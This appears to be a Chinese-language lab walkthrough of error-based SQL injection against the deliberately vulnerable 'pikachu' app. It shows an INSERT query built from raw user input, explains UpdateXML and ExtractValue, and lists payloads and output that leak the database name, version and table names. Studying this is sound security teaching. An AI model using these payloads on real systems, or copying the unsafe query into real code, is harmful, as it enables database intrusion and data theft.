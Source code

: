 ```sql
insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')
```

相关函数：

```sql
UpdateXML(xml_target,xpath_expr,new_xml)

#此函数将xml_target中用xpath_expr路径匹配到XML片段用new_xml替换，然后返回更改后的XML。
#xml_target被替换的部分与xpath_expr用户提供的XPath表达式匹配。
#如果找不到表达式匹配 xpath_expr项，或者找到多个匹配项，则该函数返回原始 xml_targetXML片段。
#所有三个参数都应为字符串。
```

```sql
ExtractValue(xml_frag, xpath_expr)
#此函数是返回在xml_frag用xpath_expr路径匹配到的XML片段。
```

```sql
concat(input_string1, input_string2 [, input_stringN ])
#使用CONCAT()函数可将两个或多个字符串连接成一个字符串
#如果传递非字符串值，CONCAT()函数将在连接之前将这些值隐式转换为字符串。
```

注入原理：

1. 在UpdateXML()、ExtractValue()函数中，当参数xpath_expr路径语法错误时，就会报错，将xpath_expr中内容当作sql语句执行后结果和报错结果一同返回。

查看数据库名：

```sql
'
1' or updatexml(1,concat('~',database()),0) or' # '~'=0x7e
```

回显：XPATH syntax error: '~pikachu'

查看数据库版本：

```sql
'
1' or updatexml(1,concat('~',version()),0) or'
```

回显：XPATH syntax error: '~5.7.27-log'

查看数据库中表名：

```sql
'
# 两种方式第一个and不能改为or
1' and updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='pikachu')),0) or'
#
1' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='pikachu'))) or'
```
